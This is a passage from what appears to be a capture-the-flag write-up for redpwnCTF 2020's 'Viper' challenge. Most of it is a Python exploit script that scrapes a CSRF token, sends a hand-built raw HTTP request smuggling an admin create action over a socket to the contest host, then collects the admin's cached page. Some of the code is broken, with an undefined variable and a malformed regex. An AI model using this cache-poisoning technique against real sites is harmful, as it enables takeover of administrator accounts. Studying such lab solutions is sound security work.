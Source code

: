 ```py
viper = requests.get(address+"/analytics?ip_address=__csrftoken__admin_account")
print(viper.text)
viper_page = requests.get(address+"/analytics?ip_address=__csrftoken__admin_account")
csrf_token = re.findall("site (\*d) times.", viper_page.text)
# Encode in base64
csrf_token = b64encode(csrf_token)



payload = ""
payload += "GET /viper/"+viper_id+" HTTP/1.1\r\nHost: 2020.redpwnc.tf:31291\\admin\\create?x=<!--&viperId="+ADMIN_VIPER+"&csrfToken="+csrf+"#-->\r\nAccept: */*\r\nCookie: connect.sid="+session_id+"\r\n\r\n"

poison = socket.socket()
poison.connect(("2020.redpwnc.tf", 31291))
poison.sendall(payload.encode())
poison.close()


viper = requests.get("http://2020.redpwnc.tf:31291/viper/"+viper_id, cookies=cookies)

print("URL to admin:")
print(address+"/viper/"+viper_id)



input("\n fetching... \n press ENTER to load cached page, once the admin has visited the URL.")
viper = requests.get("http://2020.redpwnc.tf:31291/viper/"+ADMIN_VIPER, cookies=cookies)
print(viper.text)

```


{{< image src="/images/REDPWN2020_ViperFlag.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Jam